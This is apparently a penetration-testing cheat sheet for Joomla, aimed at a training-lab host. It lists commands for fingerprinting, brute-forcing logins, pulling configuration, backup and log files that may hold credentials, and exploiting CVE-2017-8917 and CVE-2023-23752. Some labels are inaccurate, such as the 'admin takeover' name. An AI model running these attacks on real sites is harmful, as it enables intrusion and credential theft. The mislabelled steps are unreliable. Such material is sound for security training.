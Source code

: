 ## . Basic Joomla Identification

```bash
curl -s http://dev.inlanefreight.local/ | grep Joomla  # Check for Joomla in HTML source
curl -s http://dev.inlanefreight.local/robots.txt             # Check robots.txt for disallowed directories
curl -s http://dev.inlanefreight.local/README.txt              # Check for version information
curl -s http://dev.inlanefreight.local/administrator/manifests/files/joomla.xml # Detailed version info
curl -s http://dev.inlanefreight.local/plugins/system/cache/cache.xml # Approximate version info
curl -I http://dev.inlanefreight.local/favicon.ico # Check for Joomla default favicon.
```

## 2. Joomla Version Enumeration

```bash
curl -s https://developer.joomla.org/stats/cms_version | python3 -m json.tool # Joomla usage stats API
curl -I http://dev.inlanefreight.local/ | grep "X-Content-Encoded-By" # Joomla HTTP headers for version info
curl -s http://dev.inlanefreight.local/CHANGELOG.php # Check for changelog
```

## 3. Automated Scanning

### Droopescan

```bash
sudo pip3 install droopescan
droopescan -h
droopescan scan joomla --url http://dev.inlanefreight.local/
```

### JoomlaScan (Python 2.7)

```bash
sudo python2.7 -m pip install urllib3 certifi bs4
python2.7 joomlascan.py -u http://dev.inlanefreight.local/
```

## 4. Joomla Login Brute-Force

```bash
sudo python3 joomla-brute.py -u http://dev.inlanefreight.local -w /usr/share/metasploit-framework/data/wordlists/http_default_pass.txt -usr admin
```

## 5. Extension Enumeration (Manual)

```bash
curl -s http://dev.inlanefreight.local/components/
curl -s http://dev.inlanefreight.local/modules/
curl -s http://dev.inlanefreight.local/plugins/
curl -s http://dev.inlanefreight.local/templates/
curl -s http://dev.inlanefreight.local/media/
```

Check for JavaScript or CSS files:

```bash
curl -s http://dev.inlanefreight.local/components/com_content/assets/js/content.js
```

## 6. Configuration File & Backup File Checks

```bash
curl -s http://dev.inlanefreight.local/configuration.php  # Check for configuration exposure
curl -s http://dev.inlanefreight.local/configuration.php.bak
curl -s http://dev.inlanefreight.local/backup.zip
curl -s http://dev.inlanefreight.local/joomla.sql
```

## 7. Directory & File Enumeration

```bash
dirb http://dev.inlanefreight.local /usr/share/wordlists/dirb/common.txt
```

## 8. Joomla REST API Enumeration (If Enabled)

```bash
curl -s http://dev.inlanefreight.local/api/index.php/v1/users
```

## 9. Joomla CLI (If Accessible)

```bash
joomla user:list
```

## 10. Exploiting Known Joomla Vulnerabilities

### SQL Injection (CVE-2017-8917)

```bash
sqlmap -u "http://dev.inlanefreight.local/index.php?option=com_content&id=1" --dbs --batch
```

### Unauthenticated Admin Takeover (CVE-2023-23752)

```bash
curl -X GET "http://dev.inlanefreight.local/api/index.php/v1/config/application?public=true"
```

## 11. Joomla User Enumeration

```bash
curl -X POST -d "username=admin" http://dev.inlanefreight.local/index.php?option=com_users&view=reset
```

## 12. Joomla Debug Mode & Log File Checks

```bash
curl -s http://dev.inlanefreight.local/logs/error.php  # Check for error logs
curl -s http://dev.inlanefreight.local/logs/debug.log  # Check for debug logs
```

## 13. Extracting Sensitive Data from Logs

```bash
grep -i "password" logs/error.php
```

## 14. Checking for Default Credentials

```bash
joomla user:list --filter super --output=json | jq '.[].username'
```

## 15. Important Considerations
.
- **Version Fingerprinting:**
    
    - Accurate version identification is crucial for finding relevant exploits.
    - Combine multiple methods (README, joomla.xml, cache.xml) for accuracy.
- **Extension Enumeration:**
    
    - Extensions are a common source of vulnerabilities.
    - Manually examine directories and file paths for clues.
    - Identify extension versions when possible.
- **Configuration File Exposure:**
    
    - The configuration.php file contains sensitive database credentials.
    - Check for its presence and assess the risk of exposure.
- **Robots.txt:**
    
    - Carefully analyze robots.txt for disallowed directories that might reveal sensitive information.
- **Joomla Rest API:**
    
    - If enabled, the Joomla Rest API can expose sensitive data and functionalities.
    - Test for common vulnerabilities and misconfigurations.
- **Joomla CLI:**
    
    - If you have shell access, the Joomla CLI can be used to gather information and manage the Joomla installation.
- **Vulnerability Databases:**
    
    - Use resources like the Joomla Vulnerability Center or CVE databases to find known exploits.
    - Search for vulnerabilities related to the Joomla version and installed extensions.
